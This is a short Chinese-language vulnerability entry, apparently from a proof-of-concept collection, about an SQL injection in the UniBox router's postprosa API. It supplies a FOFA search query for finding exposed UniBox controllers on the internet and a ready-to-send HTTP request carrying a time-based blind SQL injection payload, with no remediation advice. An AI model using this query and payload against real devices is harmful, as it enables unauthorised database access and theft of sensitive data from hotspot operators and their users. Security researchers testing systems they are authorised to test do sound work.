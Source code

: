 # unibox路由器postprosa接口存在SQL注入

# 漏洞描述
UniBox 是一款一体化网络/热点控制器，可以部署为管理公共 WiFi 热点的热点网关，也可以部署为办公室和企业的网络控制器。unibox路由器postprosa存在SQL注入漏洞，攻击者可以根据该漏洞获取数据库权限，查看大量敏感信息。

# fofa
body="Unibox" && body="Controller"

## poc

```javascript
POST /api/postprosa.php HTTP/1.1
Host: 127.0.0.1:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Cookie: http304ok=0; PHPSESSID=pvpehubud7epklbme9m4s69b0q;
Connection: close

EM_OrderID=1'+AND+(SELECT+3676+FROM+(SELECT(SLEEP(5)))sdgB)+AND+'rBTA'%3d'rBTA
```
